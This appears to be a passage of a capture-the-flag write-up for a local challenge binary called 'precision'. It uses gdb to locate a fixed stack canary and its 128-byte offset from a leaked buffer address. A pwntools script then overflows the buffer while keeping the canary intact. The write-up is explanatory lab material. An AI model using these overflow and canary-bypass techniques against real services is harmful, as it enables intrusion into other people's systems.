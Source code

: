 Attach a gdb to a running connection (run each code block in a different terminal)

```
nc localhost 4444
```

```
ps ax | grep precision
gdb ./precision -p [the process id of the precision process]
```

The canary value is stored at 0x08048690, lets examine it

```
(gdb) x/8wx 0x8048690
0x8048690:	0x475a31a5	0x40501555	0x3b031b01	0x00000028
0x80486a0:	0x00000004	0xfffffd08	0x00000044	0xfffffe85
```

The canary value is a QWORD, thus it is 8 bytes which is "0x475a31a5	0x40501555". Also when you initiate the connection to the program, it tells you the address of the buffer. This will allow us to find the offset of the canary from the start of the buffer

```
Buff: 0xfffc1e88

(gdb) find  0xfffc1e88, +0xa0, (int) 0x475a31a5
0xfffc1f08
1 pattern found.
(gdb) p (int) 0xfffc1f08 - (int) 0xfffc1e88
$2 = 128
```

The canary is at 128 bytes from the start of the buffer. 

# Exploitation

Lets start building our exploit script. I used python with pwntools installed

```python
from pwn import *
context.arch = 'i386'
context.os = 'linux'
conn = remote('localhost', 4444)
msg = conn.recvline()
bufaddr = int(msg[msg.find(":")+2:], 16)

payload = "A"*(128)
payload += pack(0x475a31a5) + pack(0x40501555)
conn.sendline(payload)
print conn.recvline()
```

The above script succesfully bypasses the canary check, and the program prints out the buffer

![01](img/01.png)
